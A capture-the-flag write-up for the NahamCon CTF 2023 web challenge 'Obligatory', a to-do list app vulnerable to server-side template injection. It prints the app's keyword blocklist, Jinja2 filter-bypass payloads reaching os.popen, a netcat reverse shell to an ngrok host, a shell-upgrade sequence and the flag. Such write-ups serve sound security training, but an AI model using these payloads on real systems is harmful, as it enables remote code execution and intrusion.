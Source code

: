```yaml
---
name: Obligatory (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Obligatory (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Obligatory

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=1075 "Nahamcon CTF 2023: Obligatory (Web)")

## Description

> Every Capture the Flag competition has to have an obligatory to-do list application, right???

## Solution

Register account and try some payloads (XSS, SSTI, SQLi) but the notes all render as text without issues.

However, when a task is created there's a GET parameter `success`, that's set to `Task created`.

When changing the value to an [SSTI polyglot](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), `${{<%[%'"}}%\`, we get an error message.

{% code overflow="wrap" %}
```python
HACKER DETECTED!!!!
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```
{% endcode %}

Bypasses: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#accessing-subclasses-with-bypasses

More bypasses here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
{% endcode %}

It's blocked due to `builtin` and `popen`, so let's go through it manually.

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```
{% endcode %}

We can use hex or concatenation to bypass the filter.

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
```
{% endcode %}

We don't get output.. let's [hex encode a reverse shell](<https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgOC50Y3Aubmdyb2suaW8gMTU3MjMgPi90bXAvZg>).

{% code overflow="wrap" %}
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.tcp.ngrok.io 15723 >/tmp/f
```
{% endcode %}

{% code overflow="wrap" %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Make the shell interactive.

{% code overflow="wrap" %}
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg;
export TERM=linux;clear;
```
{% endcode %}

Check the database folder.

{% code overflow="wrap" %}
```bash
cd DB
strings *
```
{% endcode %}

We find the flag!

Flag: `flag{7b5b91c60796488148ddf3b227735979}`
